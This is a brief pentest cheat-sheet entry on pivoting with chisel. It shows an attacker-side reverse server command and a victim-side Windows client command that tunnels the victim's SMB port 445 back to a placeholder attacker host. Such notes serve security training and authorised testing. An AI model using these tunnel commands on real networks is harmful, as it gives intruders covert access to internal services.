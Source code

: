 # chisel pivoting tunnel over http written in go

## usage: attacker open chisel server and victim connects as a client
redirects the victim's port 445 on my local machine as 127.0.0.1:4455
```cheat bash
attacker:
./chisel_linux_amd64 server -p 11111 -reverse -v

victim: 
.\chisel_windows_amd64.exe client 10.10.x.x:11111 R 127.0.0.1:4455:127.0.0.1:445

```

tags: #chisel #tunnel #pivot 
